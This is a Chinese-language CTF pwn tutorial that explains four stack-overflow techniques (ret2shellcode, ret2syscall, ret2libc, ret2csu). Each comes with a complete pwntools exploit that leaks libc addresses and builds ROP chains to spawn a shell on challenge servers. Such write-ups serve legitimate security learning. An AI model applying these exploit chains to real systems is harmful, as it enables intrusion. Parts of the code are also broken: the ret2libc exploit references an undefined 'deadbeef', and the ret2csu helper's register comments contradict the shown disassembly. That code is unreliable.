



# 栈溢出漏洞

## ret2shellcode

### 原理

控制程序执行 shellcode 代码，需要对应的 binary 在运行时，shellcode 所在的区域具有可执行权限。

### 例子

以[HNCTF 2022 Week1]ret2shellcode为例，先**checksec**一下

开了NX，丢入IDA分析

看到函数**mprotect**把内存变得可写，可执行，然后输入**s**，把**s**复制给**buff**。函数**read**存在栈溢出漏洞，偏移量为**0x100**。所以我们只要栈溢出传入**shellcode**使**buff**执行这个**shellcode**即可

exploit:

~~~python
from pwn import *

context(arch='amd64',os='linux',log_level='debug')

p = remote("node5.anna.nssctf.cn","28975")

shellcode = asm(shellcraft.sh())
buff_bss_addr = 0x4040A0

payload = shellcode.ljust(0x100,b"a") + p64(0) + p64(buff_bss_addr)

p.sendline(payload)
p.interactive()
~~~

运行得到flag：

    nssctf{W@rn1ng,Sh31lc0de_inj3ct3r!!!}

## ret2syscall

### 原理

控制程序执行系统调用，获取 shell。我们需要知道调用函数的对应的系统调用号和参数，接着寻找对应的寄存器构造ROPchain，例如execve函数的系统调用号为59，有3个参数，所以我们就会用到rdi,rsi,rdx三个寄存器。通常系统调用号放在**rax**寄存器中。

### 例子

以CISCN 2023 初赛的烧烤摊儿为例，先进行checksec

64位程序，开了NX和Canary，查看IDA

使用了switch写了一个菜单，分别是购买啤酒、购买串、查看余额、承包店铺、改名，发现几点

- 承包店铺需要100000金币，且购买时**未检测负数输入**，可以此来增加金币
- 改名中存在**栈溢出漏洞**，且canary保护存在但**未对rbp-8中的内容做检查**
- 改名需要承包后才可进入
- 程序中存在**syscall调用**
- 改名函数中会将输入的内容放入**name**变量，可以将**/bin/sh**放入用来构造rop

所以可以通过逻辑漏洞承包店铺，再进入改名函数通过栈溢出执行系统调用，这里我们选择调用execve('/bin/sh',0,0)来获得shell，所以我们需要构造的rop为

- 在name中放入'/bin/sh'
- 在寄存器rax放入execve的系统调用号59
- name的值放入rdi
- rsi = rdx = 0

使用ROPgadget寻找gedget

exp如下：

~~~python
from pwn import *

context(arch='amd64',os='linux',log_level='debug')

p = process("./shaokao")

pop_rax = 0x458827
pop_rdi = 0x40264f
pop_rsi = 0x40a67e
pop_rdx = 0x4a404b
name_addr = 0x4e40f0
syscall_addr = 0x402404

p.sendline('1')
p.sendline('1')
p.sendline('-10000')
p.sendline('4')
p.sendline('5')

payload = b'/bin/sh\x00' + b'a'*0x20 + p64(pop_rax) + p64(59) + p64(pop_rdi) + p64(name_addr) + p64(pop_rsi) + p64(0) + p64(pop_rdx) + p64(0) + p64(0) + p64(syscall_addr)

p.sendline(payload)
p.interactive()
~~~

运行结果：

## ret2libc

### 原理

控制函数的执行 libc 中的函数，通常是返回至某个函数的 plt 处或者函数的具体位置。一般会选择system('/bin/sh')

### 例子

以CISCN 2019 东北的Pwn2为例，先**checksec**一下

开了NX以及ALSR，再把附件丢入IDA分析

逻辑很简单

~~~
1.Encrypt
2.Decrypt
3.Exit
Input your choice!
~~~

先从3个选项里面选择，若选择1，则进入函数**Encrypt**；选择2，要求重新输入；选择3，退出程序。查看**Encrypt**函数

函数先**gets**一个变量**s**,再对**s**进行加密，输出加密后的**s**,最后返回**main**函数，我们看到**gets**时没有限定长度，所以存在**栈溢出漏洞**，可以看出溢出的偏移量应该是**0x50+0x8**。由于没有找到后门函数，也没有发现system和/bin/sh，所以得自己构造ROP链，通过**泄露got表**来得到libc的基址。

我们先通过**ROPgadget**获得**ret**和**pop rdi;ret**的地址

开始构建exploit1:

~~~python
from pwn import *

p = remote("node5.buuoj.cn","29642")

elf = ELF("./ciscn_2019_c_1")

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']
ret_addr = 0x4005b9
pop_rdi_addr = 0x400c83

payload = b'\x00' + b'a'*(0x50+0x7) + p64(pop_rdi_addr) + p64(puts_got) + p64(puts_plt) + p64(main_addr)

p.sendlineafter("choice!\n",str(1))
p.sendlineafter("encrypted",payload)

puts_addr = u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
print(hex(puts_addr))
~~~

运行后得到：

通过[libc database search](https://libc.blukat.me/)查询libc版本

构建exploit2:

~~~python
base_addr = puts_addr - 0x0809c0
system_addr = base_addr + 0x04f440
binsh_addr = base_addr + 0x1b3e9a

payload = b'\x00' + b'a'*(0x50+0x7) + p64(ret_addr) + p64(pop_rdi_addr) + p64(binsh_addr) + p64(system_addr) + p64(deadbeef)

p.sendlineafter("choice!\n",str(1))
p.sendlineafter("encrypted",payload)
p.interactive()
~~~

运行得到**flag**

完整exploit:

~~~python
from pwn import *

p = remote("node5.buuoj.cn","29642")

elf = ELF("./ciscn_2019_c_1")

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']
ret_addr = 0x4005b9
pop_rdi_addr = 0x400c83

payload = b'\x00' + b'a'*(0x50+0x7) + p64(pop_rdi_addr) + p64(puts_got) + p64(puts_plt) + p64(main_addr)

p.sendlineafter("choice!\n",str(1))
p.sendlineafter("encrypted",payload)

puts_addr = u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
print(hex(puts_addr))

base_addr = puts_addr - 0x0809c0
system_addr = base_addr + 0x04f440
binsh_addr = base_addr + 0x1b3e9a

payload = b'\x00' + b'a'*(0x50+0x7) + p64(ret_addr) + p64(pop_rdi_addr) + p64(binsh_addr) + p64(system_addr) + p64(deadbeef)

p.sendlineafter("choice!\n",str(1))
p.sendlineafter("encrypted",payload)
p.interactive()
~~~

## ret2csu

### 原理

由于一般程序都会调用**libc**函数，从而一定会存在**__libc_csu_init**这个函数对libc进行初始化，所以可以对其中的**gadget**进行利用，只是不同版本的函数内容有所不同而已。

~~~asm
.text:0000000000401250                               ; void __fastcall _libc_csu_init(unsigned int, __int64, __int64)
.text:0000000000401250                               public __libc_csu_init
.text:0000000000401250                               __libc_csu_init proc near               ; DATA XREF: _start+1A↑o
.text:0000000000401250                               ; __unwind {
.text:0000000000401250 F3 0F 1E FA                   endbr64
.text:0000000000401254 41 57                         push    r15
.text:0000000000401256 4C 8D 3D B3 2B 00 00          lea     r15, __frame_dummy_init_array_entry
.text:000000000040125D 41 56                         push    r14
.text:000000000040125F 49 89 D6                      mov     r14, rdx
.text:0000000000401262 41 55                         push    r13
.text:0000000000401264 49 89 F5                      mov     r13, rsi
.text:0000000000401267 41 54                         push    r12
.text:0000000000401269 41 89 FC                      mov     r12d, edi
.text:000000000040126C 55                            push    rbp
.text:000000000040126D 48 8D 2D A4 2B 00 00          lea     rbp, __do_global_dtors_aux_fini_array_entry
.text:0000000000401274 53                            push    rbx
.text:0000000000401275 4C 29 FD                      sub     rbp, r15
.text:0000000000401278 48 83 EC 08                   sub     rsp, 8
.text:000000000040127C E8 7F FD FF FF                call    _init_proc
.text:000000000040127C
.text:0000000000401281 48 C1 FD 03                   sar     rbp, 3
.text:0000000000401285 74 1F                         jz      short loc_4012A6
.text:0000000000401285
.text:0000000000401287 31 DB                         xor     ebx, ebx
.text:0000000000401289 0F 1F 80 00 00 00 00          nop     dword ptr [rax+00000000h]
.text:0000000000401289
.text:0000000000401290
.text:0000000000401290                               loc_401290:                             ; CODE XREF: __libc_csu_init+54↓j
.text:0000000000401290 4C 89 F2                      mov     rdx, r14
.text:0000000000401293 4C 89 EE                      mov     rsi, r13
.text:0000000000401296 44 89 E7                      mov     edi, r12d
.text:0000000000401299 41 FF 14 DF                   call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
.text:0000000000401299
.text:000000000040129D 48 83 C3 01                   add     rbx, 1
.text:00000000004012A1 48 39 DD                      cmp     rbp, rbx
.text:00000000004012A4 75 EA                         jnz     short loc_401290
.text:00000000004012A4
.text:00000000004012A6
.text:00000000004012A6                               loc_4012A6:                             ; CODE XREF: __libc_csu_init+35↑j
.text:00000000004012A6 48 83 C4 08                   add     rsp, 8
.text:00000000004012AA 5B                            pop     rbx
.text:00000000004012AB 5D                            pop     rbp
.text:00000000004012AC 41 5C                         pop     r12
.text:00000000004012AE 41 5D                         pop     r13
.text:00000000004012B0 41 5E                         pop     r14
.text:00000000004012B2 41 5F                         pop     r15
.text:00000000004012B4 C3                            retn
.text:00000000004012B4                               ; } // starts at 401250
.text:00000000004012B4
.text:00000000004012B4                               __libc_csu_init endp
~~~

这里我们主要关注**loc_401290**和**loc_4012A6**部分

- **loc_401290**中，将寄存器r14，r13，r12d的值分别赋值给了寄存器rdx，rsi，edi，我们可以通过**loc_401290**控制寄存器rdx，rsi和edi(rdi的低32位)
- **loc_4012A6**中从栈中把数据pop给了rbx，rbp，r12，r13,r14,r15，可以通过栈溢出来控制这六个寄存器
- **loc_401290**从**0x40129D**到**0x4012A4**，对寄存器rbp和rbx做了比较，若不相等则重复执行**loc_401290**，我们需要构造关系**rbp = rbx + 1**使它不进入循环。

### 例子

以[HNCTF 2022 WEEK2]ret2csu为例，首先checksec一下

64位，只开了NX

丢入IDA查看

有一个简单的栈溢出，但没有**system函数地址**和**/bin/sh字符串**，但存在**write**，我们能通过泄露libc，然后自己构造。

思路：

1. 先使用**__libc_csu_init**控制寄存器泄露**write**地址
2. 使用**LibcSearcher**找到libc版本，得到基址
3. 最后得到**system**和**/bin/sh**的地址，构造payload得到权限
   
exp：

~~~python
from pwn import *
from LibcSearcher import LibcSearcher

context(arch='amd64',os='linux',log_level='debug')

p = remote("node5.anna.nssctf.cn","28888")

elf = ELF("./ret2csu")
write_plt = elf.plt['write']
write_got = elf.got['write']
csu_front_addr = 0x401290
csu_end_addr = 0x4012AA
pop_rdi_addr = 0x4012B3
ret_addr = 0x40101A
main_addr = 0x4011DC

def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = b'a' * (0x100+0x8) 
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += b'a' * 0x38
    payload += p64(last)
    p.sendlineafter('Input:\n',payload)
    sleep(1)

csu(0,1,1,write_got,8,write_got,main_addr)
write_addr=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
print(hex(write_addr))

libc = LibcSearcher('write',write_addr)
base_addr = write_addr - libc.dump('write')
system = base_addr + libc.dump('system')
binsh = base_addr + libc.dump('str_bin_sh')

payload = b'a'*0x108+p64(ret_addr) +p64(pop_rdi_addr)+p64(binsh) +p64(system)

p.sendlineafter('Input:\n',payload)
p.interactive()
~~~

运行结果：

